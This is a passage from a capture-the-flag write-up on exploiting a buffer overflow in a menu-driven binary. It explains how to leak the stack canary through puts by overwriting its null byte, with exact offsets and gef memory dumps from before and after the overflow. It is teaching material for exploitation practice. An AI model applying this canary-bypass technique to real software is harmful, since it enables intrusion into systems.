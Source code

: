 ```
    else {
      if (menuChoice == 3) {
        bVar2 = false;
        this = operator<<<std--char_traits<char>>
                         ((basic_ostream *)cout,"[*]BYE ~ TIME TO MINE MIENRALS...");
        operator<<((basic_ostream<char,std--char_traits<char>> *)this,
                   endl<char,std--char_traits<char>>);
      }
```

So we have a buffer overflow bug that we can use to get the return address. However the first mitigation we will need to overcome is the stack canary. The stack canary is an eight byte random integer (four bytes for `x86` systems) that is placed between the variables and the return address. In order to overwrite the return address, we have to overwrite the stack canary. However before the return address is executed, it checks to see if the stack canary has the same value. If it doesn't the program immediately ends.

In order to bypass this, we will need to leak the stack canary. That way we can just overwrite the stack canary with itself, so it will pass the stack canary check and execute the return address (which we will overwrite). We will leak it with the `puts` call, which will print data that it is given a pointer to until it reaches a null byte. With stack canaries the least significant byte is a null byte. So we will just send enough data just to overflow the least significant byte of the stack canary, then print our input. This will print all of our data and the highest seven eight bytes of the stack canary, and since we the lowest byte will always be a null byte, we know the full stack canary. Then we can just execute the buffer overflow again and write over the stack canary with itself in order to defeat this mitigation.

In order to leak the canary we will need to send `0xa9` bytes worth of data. The first `0xa8` will be to fill up the `input` char array, and the last byte will be to overwrite the least signifcant byte of the stack canary. Let's take a look at the memory for a bit more detail:

```
gef➤  x/24g 0x7ffe80d6b4e0
0x7ffe80d6b4e0: 0x3832373533393531  0x00007fa279a33628
0x7ffe80d6b4f0: 0x0000000000400930  0x00007fa279686489
0x7ffe80d6b500: 0x00007ffe80d6b540  0x0000000000000001
0x7ffe80d6b510: 0x00007ffe80d6b540  0x0000000000601df8
0x7ffe80d6b520: 0x00007ffe80d6b688  0x0000000000400e1b
0x7ffe80d6b530: 0x0000000000000000  0x000000010000ffff
0x7ffe80d6b540: 0x00007ffe80d6b550  0x0000000000400e31
0x7ffe80d6b550: 0x0000000000000002  0x0000000000400e8d
0x7ffe80d6b560: 0x00007fa279dcd9a0  0x0000000000000000
0x7ffe80d6b570: 0x0000000000400e40  0x00000000004009a0
0x7ffe80d6b580: 0x00007ffe80d6b670  0x05345bfe35ee0700
0x7ffe80d6b590: 0x0000000000400e40  0x00007fa279664b97
```

here we can see our input `15935728` starts at `0x7ffe80d6b4e0`. `0xa8` bytes down the stack we can see the stack canary `0x05345bfe35ee0700` at `0x7ffe80d6b588` followed by the saved base pointer and return addess. After the overflow this is what the memory looks like:

```
gef➤  x/24g 0x7ffe80d6b4e0
0x7ffe80d6b4e0: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b4f0: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b500: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b510: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b520: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b530: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b540: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b550: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b560: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b570: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b580: 0x3030303030303030  0x05345bfe35ee0730
0x7ffe80d6b590: 0x0000000000400e40  0x00007fa279664b97
```
